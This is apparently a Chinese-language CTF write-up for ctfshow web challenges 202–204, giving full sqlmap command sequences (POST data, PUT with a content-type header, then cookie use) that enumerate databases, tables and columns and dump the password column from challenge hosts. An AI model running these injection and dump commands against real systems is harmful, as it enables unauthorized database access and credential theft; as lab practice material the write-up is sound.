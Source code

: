 ## web 202

 使用--data 调整sqlmap的请求方式，使用post方式传参

 `--data="id=1"`

```bash
# 爆数据库   ctfshow_web
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs
# 指定数据库来爆表名     ctfshow_user
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user -C pass --dump
```


## web 203

使用--method 调整sqlmap的请求方式，使用put方式提交，还要带上header的content-type

`--method=PUT --headers="Content-Type:text/plain"`

如果加上还是不行，就在url后的api在加上index.php，不知道为什么前面都可以直接用api，这里就要加index.php才能跑了

```bash
# 爆数据库   ctfshow_web
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain"
# 指定数据库来爆表名     ctfshow_user
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump
```

## web 204

带上cookie参数，使用--cookie

f12在应用里找到PHPSESSID=xxxx的cookie，只需要值即可
